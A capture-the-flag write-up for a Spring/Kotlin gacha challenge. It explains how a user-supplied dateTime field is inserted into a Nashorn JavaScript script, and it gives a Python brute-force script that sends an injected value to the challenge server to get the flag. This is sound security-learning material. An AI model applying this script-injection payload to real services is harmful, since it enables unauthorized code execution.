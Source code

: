 # G0tcha-G0tcha-doggy

![Untitled](G0tcha-G0tcha-doggy%20d7b50205987b4ad98627bdb01734ca50/Untitled.png)

| framework | Spring + Kotlin |
| --- | --- |
| vulnerability | Code Injection? |

# Description

We can do the gotcha by choosing the numbers.

We have to match the number list and bonus number.

Although the server generates random gotcha numbers, we must manipulate it to produce numbers that correspond to the list provided below.

```kotlin
    val gotChaBaby : List<Long> = listOf(5,20)
    val gotChaHack : List<Long> = listOf(5,5,5)
    val gotChaPark : List<Long> = listOf(6,6,6)
    val gotChaKing : List<Long> = listOf(7,7,7)
    val gotChaTazza : List<Long> = listOf(8,8,8)
    val gotChaMaster : List<Long> = listOf(9,9,9)
```

# Code Analysis

### saveGotcha

```kotlin
fun saveGotcha(userName:String, userNumbers: List<Long>, dateTime: String) : GotchaEntity 
```

When we play the gotcha, the `numbers` we submit, along with the `username` and `timestamp`, are sent to the server, which then calls the `saveGotcha()` method.

```kotlin
val script = Script.Builder()
    .script("for(var tempvariable=0;tempvariable<5;tempvariable++){ bonus_number=Math.floor(secureRandom.nextDouble()*value)+1;java.lang.Thread.sleep(2);}")
    .value(dateTime)
    .tempVariable( variableBuiler() )
    .dynamicVariable(StringBuilder().append(variableBuiler()).append(System.currentTimeMillis()).toString())
    .build()
    println("rouletteB script: ${script.script}")
    scriptEngineService.setSecureRandomSeed(userName)
    scriptEngineService.runJS(script.script.toString())
```

The server generates random numbers and bonus numbers through `JavaScript` code that can be executed using the Nashorn script engine. Interestingly, the `script is dynamically generated` based on the provided `dateTime`.

# Exploit

### Code Injection

```kotlin
for (var i=0;i<5;i++){ 
	java.lang.Thread.sleep(2);
	bonus_number = Math.floor(secureRandom.nextDouble() * <dateTime>) + 1;
}

--------

var end_no=variables.get('end_no');
var start_no=variables.get('start_no');
var tmp=[];

for(var i=start_no; i < end_no; i++){
	tmp.push(Math.floor(secureRandom.nextDouble() * <dateTime>) + 1);
	Java.type('java.lang.Thread').sleep(50);
}

var agent_a_array=JSON.stringify(tmp);
```

The above code snippet is beautify the hardcoded script. *the  -------- distinguishes the logic of rouletteB and rouletteA.

As you can see `<dateTime>` space is dynamically generated and this is the code injection point.

But the hard thing was we can’t provide `dateTime` over 25 length. and the agent_a_array only uses first 3 digits.

### payload

```kotlin
import requests

# url = "http://localhost:8000"
url = "http://35.243.76.165:11008"
json = {"userName":"junan", "userNumbers":[5, 20],"dateTime": "30);tmp=end_no=[5];(1"}

while True:
    r = requests.post(f'{url}/api/gotcha', json=json, proxies={"http":"http://127.0.0.1:8080"}).json()
    result = r.get('result').get('result')
    print(result)
    if (result == True):
        print(r.get('result'))
        break

```

Interestingly, the threads share variables, so we can set end_no and tmp variable in the bonus_number generating thread.

To bypass the length limitation, I used little brute force to get correspond bonus_number 20.

```kotlin
for (var i=0;i<5;i++){ 
	java.lang.Thread.sleep(2);
	bonus_number = Math.floor(secureRandom.nextDouble() * 30);
	tmp=end_no=[5];
	(1) + 1;
}
```

So the payload generates above scripts and we can get the flag.